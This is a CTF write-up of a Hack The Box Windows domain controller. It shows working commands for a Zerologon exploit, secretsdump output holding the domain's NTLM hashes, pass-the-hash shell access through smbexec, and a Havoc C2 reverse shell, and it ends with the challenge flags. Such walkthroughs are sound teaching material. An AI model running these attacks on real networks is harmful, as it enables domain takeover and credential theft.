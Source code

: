 ### Challenge description
FullPwn challenges don't have a description. We just get an IP address and are supposed to get user and root flag.

I got both user AND root flags for this challenge via unintended means.

A port scan shows we are dealing with a Windows AD machine:

```nmap
PORT      STATE SERVICE           VERSION
53/tcp    open  domain            Simple DNS Plus
88/tcp    open  kerberos-sec      Microsoft Windows Kerberos (server time: 2023-07-15 19:03:58Z)
135/tcp   open  msrpc             Microsoft Windows RPC
139/tcp   open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp   open  ldap              Microsoft Windows Active Directory LDAP (Domain: contempt.htb, Site: Default-First-Site-Name)
443/tcp   open  ssl/http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_ssl-date: 2023-07-15T19:05:27+00:00; 0s from scanner time.
|_http-server-header: Microsoft-HTTPAPI/2.0
| ssl-cert: Subject: commonName=contempt.htb/organizationName=Contempt
| Subject Alternative Name: DNS:nextcloud.contempt.htb
| Not valid before: 2023-05-18T17:43:41
|_Not valid after:  2073-05-18T17:53:41
|_http-title: Not Found
445/tcp   open  microsoft-ds      Windows Server 2016 Standard 14393 microsoft-ds (workgroup: CONTEMPT)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ldapssl?
2179/tcp  open  vmrdp?
3268/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: contempt.htb, Site: Default-First-Site-Name)
3269/tcp  open  globalcatLDAPssl?
9389/tcp  open  mc-nmf            .NET Message Framing
49666/tcp open  msrpc             Microsoft Windows RPC
49668/tcp open  msrpc             Microsoft Windows RPC
49669/tcp open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
49670/tcp open  msrpc             Microsoft Windows RPC
49719/tcp open  msrpc             Microsoft Windows RPC
57830/tcp open  msrpc             Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: dc01
|   NetBIOS computer name: DC01\x00
|   Domain name: contempt.htb
|   Forest name: contempt.htb
|   FQDN: dc01.contempt.htb
|_  System time: 2023-07-15T12:04:49-07:00
```
It seems we have a Nextcloud instance on port 443:  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/5e32bc94-1c82-4941-9e9b-ef52d42c3442)

As I usually do, when first seeing a Domain Controller, I check for known vulnerabilities and a good one to check for is `zerologon`. We can do that easily using crackmapexec:  

![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/6db62cb4-8165-4cb0-8f8a-577a930ef9f1)

It seems it is vulnerable. I cloned this repo: https://github.com/risksense/zerologon and tried to set an empty password for the DC.

```bash
./set_empty_pw.py DC01 contempt.htb
```
It took a bit of time, I was starting to think it was a false positive but we got there eventually. The exploit worked:  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/269b3455-2d22-4dcd-ac00-2a622e429e84)

I used secretsdump.py to get all the hashes from the DC:

```bash
secretsdump.py -just-dc -no-pass DC01\$@contempt.htb
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:6c8f447c25487adc9148b0a90036c6a8:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:d8d6f9644b7ef09c5c9d12d01a18bc7a:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
contempt.htb\svc-ldap:1104:aad3b435b51404eeaad3b435b51404ee:b6fa6cd30819a545a7f12a76b54b6e84:::
contempt.htb\seraphina.blake:1601:aad3b435b51404eeaad3b435b51404ee:2f320b121f6ae368a35ba9819e0d2516:::
contempt.htb\phoenix.reed:1602:aad3b435b51404eeaad3b435b51404ee:8213160e905b6817df4ee0c2c8b48e12:::
contempt.htb\cipher.stone:1603:aad3b435b51404eeaad3b435b51404ee:a5e12330358741a01370caf5dc316f86:::
contempt.htb\zero.summers:1604:aad3b435b51404eeaad3b435b51404ee:b8e7d7f4e6361c680c24f0a7bdd6e92a:::
contempt.htb\viper.hollow:1605:aad3b435b51404eeaad3b435b51404ee:744574681328753ff5c843b8d3c100a2:::
contempt.htb\matrix.cross:1606:aad3b435b51404eeaad3b435b51404ee:2c03a59578699559cc2940d712fd964d:::
contempt.htb\orion.swift:1607:aad3b435b51404eeaad3b435b51404ee:928e41a48e0597ec9747c7b6b9fd86db:::
contempt.htb\aria.frost:1608:aad3b435b51404eeaad3b435b51404ee:9d0827ca3f062bddb35f88bc5bf15158:::
contempt.htb\echo.rivers:1609:aad3b435b51404eeaad3b435b51404ee:a7be11b5be8bb84196edbd0e8c0bc9ea:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
svc-adfs$:1103:aad3b435b51404eeaad3b435b51404ee:b62f7224fe2c58991ed0b7f29fcb2734:::
[*] Kerberos keys grabbed
<snipped>
```

I was able to use the administrator's NTLM hash to confirm that the DC has been pwned.

```bash
crackmapexec smb contempt.htb -u administrator -H 6c8f447c25487adc9148b0a90036c6a8 --shares
```
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/0ec4b7e0-611d-4771-973f-ccb7501cf8d4)

Interestingly enough, we don't see C$ or ADMIN$ shares writable or at all. But we do see NETLOGON. We can use `smbexec.py` to get a foothold and we must use `-share` flag to specify the share where we want our payload to be executed from:

```bash
smbexec.py contemp.htb/administrator@contempt.htb -hashes :6c8f447c25487adc9148b0a90036c6a8 -share NETLOGON
```

We get a semi-interactive shell and can read the administrator flag.

![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/8f39bcda-1c7e-4a64-a814-dc4b02d47e1a)

HTB{good_d@y_For_PhiSH1N6_On_mARS}

### Privilege de-escalation?!

Curiously, we can't find the user flag anywhere via the shell we have. I wanted better access so I uploaded a Havoc C2 implant and got a reverse shell there. Then I executed the following command to recursively search for specific pattern in the entire filesystem:

```powershell
shell powershell -command "ls -fo -r \ -erroraction silentlycontinue | sls -pattern 'HTB{' -erroraction silentlycontinue"
```

After a while, we get the user flag out of a .vhdx file:
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/89843c7b-8dfd-4f6f-bfc0-7c31264f29d6)

HTB{aDFs_K1LLcHAIn_put5_y0U_oN_clOuD9}

